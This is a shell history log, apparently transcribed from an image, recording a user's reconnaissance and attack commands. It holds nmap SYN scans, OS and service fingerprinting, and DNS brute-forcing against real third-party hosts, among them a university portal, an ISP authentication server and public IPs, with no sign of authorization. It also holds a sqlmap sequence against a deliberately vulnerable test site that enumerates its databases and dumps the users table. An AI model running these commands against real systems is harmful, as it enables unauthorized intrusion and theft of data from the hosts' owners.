  1019  nmap -sP 192.168.0.*
 1020  nmap -sP 192.168.1.100-25
 1021  ping 203.162.10.122
 1022  clear
 1023  nmap -sT
 1024  nmap -h
 1025  clear
 1026  nmap -sS -P0 -sV -O 172.16.200.128
 1027  sudo nmap -sS -P0 -sV -O 172.16.200.128
 1028  sudo nmap -sS -P0 -sV -O 192.168.174.1
 1029  namp -F
 1030  clear
 1031  nmap -F
 1032  nmap -F testphp.vulnweb.com
 1033  ssh 176.28.50.165
 1034  nmap qldt.ptit.edu.vn
 1035  clear
 1036  nmap -F  qldt.ptit.edu.vn
 1037  nmap --script dns-brute qldt.ptit.edu.vn
 1038  nmap --script dns-brute --script-args dns-brute.domain=qldt.ptit.edu.vn,dns-brute.threads=6,dns-brute.hostlist=./hostfile.txt,newtargets -sS -p 80
 1039  sudonmap --script dns-brute --script-args dns-brute.domain=qldt.ptit.edu.vn,dns-brute.threads=6,dns-brute.hostlist=./hostfile.txt,newtargets -sS -p 80
 1040  sudo nmap --script dns-brute --script-args dns-brute.domain=qldt.ptit.edu.vn,dns-brute.threads=6,dns-brute.hostlist=./hostfile.txt,newtargets -sS -p 80
 1041  clear
 1042  nmap -p80,443 --script dns-brute qldt.ptit.edu.vn
 1043  nmap -p80,443 --script dns-brute www.qldt.ptit.edu.vn
 1044  ping qldt.ptit.edu.vn
 1045  nmap -p80,443 --script dns-brute 203.162.10.122
 1046  nmap -p80,443 --script dns-brute facebook.com
 1047  nmap -p80,443 -Pn --script dns-brute 203.162.10.122
 1048  nmap -F 14.224.0.132
 1049  nmap -F 123.31.40.99
 1050  nmap -F -Pn  123.31.40.99
 1051  ping http://auth.vnpt.vn
 1052  ping auth.vnpt.vn
 1053  nmap -F auth.vnpt.vn
 1054  nmap -sT auth.vnpt.vn
 1055  nmap -sS -P0 -sV -O 113.164.235.20
 1056  sudo nmap -sS -P0 -sV -O 113.16
 1057  sudo nmap -sS -P0 -sV -O 113.164.235.20 > /home/erik/Documents/nmapLogScan.md
 1058  nmap -p80,443 -Pn --script dns-brute 203.162.10.122 > /home/erik/Documents/23102020.md
 1059  shutdown -h now
 1060  sudo apt install 
 1061  sudo apt install sqlmap 
 1062  sqlmap -h
 1063  sqlmap -s http://testphp.vulnweb.com/artists.php?artist=2 --dbs
 1064  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --dbs
 1065  clear
 1066  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --dbs
 1067  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -dbs
 1068  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --tables -D
 1069  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --tables -D acuart
 1070  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --collums -D acuart -T users
 1071  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --collumns -D acuart -T users
 1072  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --columns -D acuart -T users
 1073  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 --dump -D acuart -T users
 1074  cd /root/
 1075  sudo su
 1076  code /home/erik/
 1077  sudo code /root/.minecraft/mcpipy
 1078  cd 
 1079  ls